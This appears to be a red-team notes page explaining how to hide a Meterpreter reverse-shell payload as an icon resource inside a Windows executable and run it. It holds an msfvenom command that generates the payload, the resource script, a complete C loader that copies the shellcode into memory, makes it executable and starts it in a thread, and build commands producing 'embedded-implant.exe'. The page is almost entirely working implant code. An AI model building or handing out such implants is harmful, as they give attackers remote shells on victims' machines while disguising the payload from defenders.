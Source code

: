 # FindResource

Determines the location of a resource with the specified type and name in the specified module.

(LoadResource) Retrieves a handle that can be used to obtain a pointer to the first byte of the specified resource in memory.

(SizeofResource)  Retrieves the size, in bytes, of the specified resource.

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<IP> exitfunc=thread -f raw -o shellcode.ico
```

```c
#define SC_ICON 2583
SC_ICON RCDATA "shellcode.ico"
```

```c
#include <windows.h>

#define SC_ICON 2583
int main() {
    // Find shellcode data
    HRSRC handle_resource = FindResource(NULL, MAKEINTRESOURCE(SC_ICON), RT_RCDATA);

    // Load shellcode
    HGLOBAL handle_global = LoadResource(NULL, handle_resource);

    // Get pointer to shellcode
    LPVOID memory_pointer = LockResource(handle_global);

    // Length of shellcode
    DWORD length = SizeofResource(NULL, handle_resource);

    // Allocate the memory
    LPVOID execute_memory = VirtualAlloc(NULL, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    RtlMoveMemory(execute_memory, memory_pointer, length);

    DWORD old_protection = 0;
    BOOL returned_virtual_protection = VirtualProtect(execute_memory, length, PAGE_EXECUTE_READ, &old_protection);

    if(returned_virtual_protection != NULL) {
        HANDLE thread_handle = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)execute_memory, NULL, NULL, NULL);

        WaitForSingleObject(thread_handle, INFINITE);
    }
}
```

```
$ x86_64-w64-mingw32-windres resource.rc resource.o

$ x86_64-w64-mingw32-gcc -o embedded-implant.exe resource.o implant.c
```

```
C:\> rc resource.rc

C:\> cvtres /machine:x64 /out:resource.o resource.res

C:\> cl.exe /nologo /0x /W0 /GS- /DNDEBUG /Tc:implant.c /link /out:embedded-implant.exe /subsystem:console /machine:x64 resource.o
```

---
## References

- [[01 - Command Line/D - Compilers/Windows/C|Compilers: C]]

- [Red Team Notes: Loading and Executing Shellcode From PE Resources](https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources)